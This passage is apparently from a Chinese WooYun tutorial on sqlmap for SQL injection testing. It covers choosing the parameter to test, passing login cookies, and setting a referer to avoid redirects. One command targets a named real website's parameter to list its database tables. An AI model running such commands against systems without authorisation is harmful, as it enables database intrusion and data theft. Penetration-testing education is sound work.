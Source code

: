 我们发现，在测试yblb的时候SQLMAP浪费了我们好多时间（这个漏洞我是手工fuzz的，我知道是ybxm打单引号报的错，如果是扫描器扫描也同样知道漏洞出在ybxm） 那么，何必浪费时间呢？

改进方案：指定测试参数 –p ybxm

改良的例子：

[WooYun: 今题网某分站SQL注射漏洞](http://www.wooyun.org/bugs/wooyun-2014-048798)

```
C:\Users\Administrator>sqlmap.py -u "http://club.jinti.com/operation/setmoodinfo.aspx?bodyid=52164&channel=a&classid=0&mood=mood1rand=0.10818770481273532" -p channel –tables

```

避免了测试不必要的参数浪费时间

这也是本文章的目的，让新手们少走弯路，快速顺利地完成检测任务。

0x02 需要登陆后访问的页面
---------------

* * *

有时注射点的位置需要登录（手动测试时发现、扫描器配置了登陆sequence扫描）

解决方案：使用—cookie选项（cookie是burpsuite或者tamperdata手工抓的）

[WooYun: CSCMS V3.5 最新版 SQL注射（官方站演示+源码详析）](http://www.wooyun.org/bugs/wooyun-2013-047363)

形如：

```
C:\Users\Administrator>sqlmap.py -u "http://?a=b" -p a --dbms=mysql --cookie="cookie" –tables

```

0x03 总是提示302 redirect（重定向）
--------------------------

* * *

明明扫描器扫出来的，手工测试也过了，可一到sqlmap就是302。

可能是要重定向到error页面，这种情况有时属于正常状况（部分boolean-based payload会导致），但是总是这样，可能是referer中有限制，或者cookie要登陆，再或者是agent需要换

带上referer（从扫描器请求中找）

解决方案：使用—referrer 选项

例子：

[WooYun: 联众世界SQL注射漏洞可致数据库信息泄露](http://www.wooyun.org/bugs/wooyun-2014-051210)

形如：

```
C:\Users\Administrator>sqlmap.py -u "http:// " --data="? " -p ? --referer="http:// " --tables

```

cookie见0x03
